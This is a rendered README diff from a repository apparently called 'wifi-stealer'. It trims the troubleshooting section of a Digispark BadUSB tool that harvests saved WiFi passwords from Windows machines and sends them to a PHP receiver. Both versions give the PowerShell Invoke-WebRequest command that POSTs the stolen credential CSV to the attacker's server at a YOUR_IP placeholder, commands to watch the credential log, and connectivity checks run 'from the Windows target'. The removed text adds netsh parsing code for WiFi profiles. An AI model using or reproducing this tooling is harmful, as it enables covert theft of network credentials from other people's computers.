

Before and after one commit to Zypher17/wifi-stealer, a Markdown page: README.md, the part around one of its changes. Shown at 88% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -303,88 +287,45 @@ Most of the time the server is fine and the issue is on the Windows / payload si
 
-- Test the PHP receiver from the server itself:
-
-  ```bash
-  curl -X POST http://localhost/wifi-recv.php -d "data=test"
-  cat /var/www/html/wifi_creds.log
-  ```
-
-- If nothing is written:
-  - Make sure Apache is running:
-    `sudo systemctl status apache2`
-  - Check the log file exists and is writable:
-    `ls -l /var/www/html/wifi_creds.log` and fix ownership/permissions as in the setup section.
-
----
+2. If nothing is written:
+   - Check Apache status.
+   - Check `wifi_creds.log` exists and is writable.
 
 ### PowerShell error: “Unable to connect to the remote server”
 
-This means Windows can’t reach your server at the URL you used in `Invoke-WebRequest`.
-
-On the Windows machine, in PowerShell:
+From the Windows target:
 
 ```powershell
-# 1) Can we reach the server IP?
 ping YOUR_IP
-
-# 2) Is the HTTP port open?
 Test-NetConnection YOUR_IP -Port 80
-# or, if you really configured Apache on a custom port:
-Test-NetConnection YOUR_IP -Port 8080
 ```
 
-Also double‑check the URL:
+Fix the URL in the payload if needed and reflash the Digispark.
 
-- Default Apache from this README uses:
-  `http://YOUR_IP/wifi-recv.php`
-- Only use `:8080` if you configured Apache to listen on 8080 and tested it in a browser first.
+### CSV looks good on Windows, but dashboard is empty
 
-If manual tests work, make sure the **same URL** is used in your Digispark sketch wherever you define `$u`.
-
-Reflash the Digispark after any IP/URL change.
-
----
-
-### PowerShell error: “You cannot call a method on a null-valued expression”
-
-This usually comes from the WiFi profile parsing line when a split doesn’t match some `netsh` output lines, so you end up calling a property or method on `$null`.
-
-Use the safer approach:
-
-```powershell
-$profiles = (netsh wlan show profiles) |
-  Select-String "All User Profile" |
-  ForEach-Object {
-    $_.Line.Split(':').Trim()
-  }
-```
-
-Run the WiFi extraction commands step‑by‑step in a PowerShell window on your test machine, fix them there, then mirror the working commands into the Digispark sketch.
-
----
-
-### CSV looks good on Windows, but dashboard is still empty
-
-If `Get-Content` of your CSV on Windows shows valid data, but nothing appears in the dashboard:
-
-- Manually POST the CSV from PowerShell:
+- Manually POST the CSV:
 
   ```powershell
   $b = Get-Content $csvPath -Raw
   Invoke-WebRequest -UseBasicParsing -Uri 'http://YOUR_IP/wifi-recv.php' -Method POST -Body $b
   ```
 
-- On the server, watch the log in real time:
+- Watch the log on the server:
 
   ```bash
   sudo tail -f /var/www/html/wifi_creds.log
   ```
 
-If this manual POST writes to the log, the PHP side is fine. Then the issue is:
+If manual POST works, the issue is usually the hard-coded URL in the sketch or timing/keystroke problems.
 
-- Wrong IP/URL hard‑coded in the Digispark sketch, or
-- HID keystrokes being dropped because the Digispark is typing too fast.
+### Digispark upload issues
+
+- Plug it in only after clicking **Upload**.
+- Try a different USB port.
+- Board set to `Digispark (Default – 16.5 MHz)`.
+- Only one `.ino` in the sketch folder.
+- `#include "DigiKeyboard.h"` at the top.
 
 ---
 
-### Digispark upload fails or acts weird
+## Notes
 
````
Also changed, not shown: other parts of README.md (+50 -78 lines).
